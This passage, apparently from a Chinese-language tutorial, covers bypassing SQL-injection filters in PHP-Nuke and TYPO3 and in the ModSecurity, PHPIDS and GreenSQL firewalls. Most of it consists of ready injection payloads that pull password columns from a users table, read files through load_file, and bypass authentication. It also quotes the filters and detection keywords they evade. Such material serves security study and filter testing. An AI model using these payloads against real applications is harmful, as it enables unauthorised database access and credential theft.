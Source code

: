 2. PHP-Nuke CMS  

``` php
	if(isset($_SERVER['QUERY_STRING']) && (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
  
		$queryString = $_SERVER['QUERY_STRING']; 
	  
		if ( stripos($queryString, '%20union%20') 
	  
			OR stripos($queryString, '/*') 
	  
			OR stripos($queryString, '*/union/*') 
	  
			OR stripos($queryString, '+union+') 
	  
			OR stripos($queryString, 'concat')) 
		{ die('Illegal Operation'); }
  
```
Bypass:  
`vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'`  
  
3. TYPO3 CMS  
`$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence`  
Bypass:  
vuln.php?id=1/&#42;&#42;/union%a0select/&#42;&#42;/1,pass,3&#96;a&#96;from&#96;users&#96;   
  

  
b) WAF绕过示例
  
1. ModSecurity CRS 2.0.9
   
``` sql
  
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
  
1'union/*!select*/pass,load_file(0x123456789)from users-- -
  
```
  
2. PHPIDS 0.6.4
  
```  sql
  
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
  
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
  
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1
  
```
  
3. GreenSQL 1.3.0 
检测关键字：union, information_schema, into outfile, current_user, current_date, version
检测函数：mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()
  
